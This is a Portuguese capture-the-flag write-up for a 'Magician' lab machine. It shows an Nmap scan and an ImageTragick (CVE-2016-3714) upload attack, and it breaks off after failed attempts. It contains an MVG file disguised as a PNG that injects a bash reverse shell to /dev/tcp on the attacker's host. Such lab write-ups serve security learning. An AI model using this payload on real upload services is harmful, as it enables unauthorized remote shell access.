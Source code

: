 # _**Magician CTF**_
![](magic.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos duas páginas web e um serviço FTP
Não temos login anônonimo  
Então, vamos investigar a página web  
Temos um formulário que aceita upload de imagens _.png_ para converter em _.jpg_  
Procurando por como realizar upload de imagens com conteúdo malicioso, me deparei com [CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714)  
Se o servidor usar **ImageMagick** com arquivos controlados por usuários, você pode tentar enviar um arquivo disfarçado de imagem mas que é na verdade um script  
Vamos criar um arquivo _.mvg_
> ```bash
> cat > magem.png << 'EOF'
> push graphic-context
> viewbox 0 0 640 480
> fill 'url(https://example.com/image.jpg"|bash -c '\''bash -i >& /dev/tcp/[ip_address]/[port] 0>&1'\''|")'
> pop graphic-context
> ```

Em seguida, vamos realizar upload de nosso arquivo e ligar nosso ```netcat```  
Após diversos erros e falhas, sem obter shell, encontramos uma pista no serviço FTP que anteriormente passou  

![](ftp_msg.jpg)

Embora já saibamos disso, bom relatar  
Continuando  
Nenhum arquivo parece funcionar
